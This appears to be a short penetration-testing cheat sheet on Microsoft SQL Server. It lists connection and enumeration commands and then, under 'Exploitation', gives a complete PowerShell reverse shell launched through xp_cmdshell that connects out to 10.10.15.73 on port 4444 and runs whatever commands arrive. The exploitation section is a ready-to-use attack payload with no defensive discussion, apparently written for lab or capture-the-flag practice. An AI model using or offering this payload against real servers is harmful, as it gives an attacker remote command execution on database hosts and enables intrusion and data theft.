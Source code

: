 #database 
## Info
- **Type:** Relational Database Management System (RDBMS)
- **Common Usage:** Enterprise applications, web applications, Windows-based infrastructure
- **Security Note:** MSSQL servers may be vulnerable to **default credentials, weak authentication, XP_CMDSHELL abuse, and privilege escalation attacks**.

## Basic Commands
```bash
# Connect using authentication
mssqlclient.py $USER@$IP -windows-auth

# List databases
SELECT name FROM master.dbo.sysdatabases;

# Select a database
USE $DATABASE;

# List tables in the current database
SELECT * FROM information_schema.tables;

# List all users
SELECT name FROM master.sys.syslogins;

# Get current user
SELECT SYSTEM_USER;

# Checking Permissions
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Exploitation
```

```

```sql
EXEC xp_cmdshell 'powershell.exe -ExecutionPolicy Bypass -Command "
    $client = New-Object System.Net.Sockets.TCPClient(''10.10.15.73'',4444);
    $stream = $client.GetStream();
    $bytes = New-Object byte[] 65535;

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
        $sendback = (iex $data 2>&1 | Out-String);
        $sendback2 = $sendback + ''# '';
        $sendbyte = [System.Text.Encoding]::ASCII.GetBytes($sendback2);
        $stream.Write($sendbyte, 0, $sendbyte.Length);
        $stream.Flush();
    }

    $client.Close()
"';
```